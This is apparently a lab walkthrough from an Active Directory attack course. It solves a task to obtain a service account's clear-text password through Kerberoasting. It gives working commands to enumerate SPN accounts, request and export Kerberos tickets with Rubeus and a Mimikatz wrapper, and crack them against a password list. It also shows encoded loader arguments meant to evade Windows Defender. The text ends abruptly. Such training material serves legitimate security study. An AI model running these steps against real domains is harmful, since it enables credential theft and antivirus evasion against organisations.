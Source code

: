 
Task 

• Using the Kerberoast attack, get the clear-text password for an account in us.techcorp.local domain.

We first need to find out services running with user accounts as the services running with machine accounts have difficult passwords. We can use PowerView’s (Get-DomainUser –SPN) or ActiveDirectory module for discovering such services. Using ActiveDirectory module:

```
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} - Properties ServicePrincipalName
```

Please note that it is not necessary to have an actual service using 'serviceaccount'. For the DC, an account with SPN set is a service account.


We can use Rubeus to get hashes for the serviceaccount. Note that we are using the /rc4opsec option that gets hashes only for the accounts that support RC4. This means that if ' This account supports Kerberos AES 128/256 bit encryption' is set for a service account, the below command will not request its hashes. Note that Windows Defender would detect Rubeus execution even when used with Loader. To avoid that, let’s pass encoded arguments to the Loader. First, run the below command on the student VM to generate encoded arguments for "kerberoast"


```
C:\AD\Tools\ArgSplit.bat
```


```
C:\AD\Tools\Loader.exe -Path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:serviceaccount /simple /rc4opsec /outfile:C:\AD\Tools\hashes.txt
```

we can decrypt it with john

We can also use the KerberosRequestorSecurityToken .NET class from PowerShell to request a ticket. Now, let’s request a ticket for the serviceaccount user:


```
Add-Type -AssemblyName System.IdentityModel
```

used to load the **System.IdentityModel** assembly, which is part of .NET and provides classes for working with identity and authentication (such as tokens, claims, and federation authentication

```
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "USSvc/serviceaccount"
```

Let's check if we got the ticket:

```
Klist
```

Now, let’s dump the tickets on disk:

```
. C:\AD\Tools\Invoke-Mimi.ps1
```

```
Invoke-Mimi -Command '"kerberos::list /export"'
```

Lets Brute force 

```
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\2-60210000-studentuserx@USSvc~serviceaccount-US.TECHCORP.LOCAL.kirbi
```

using this

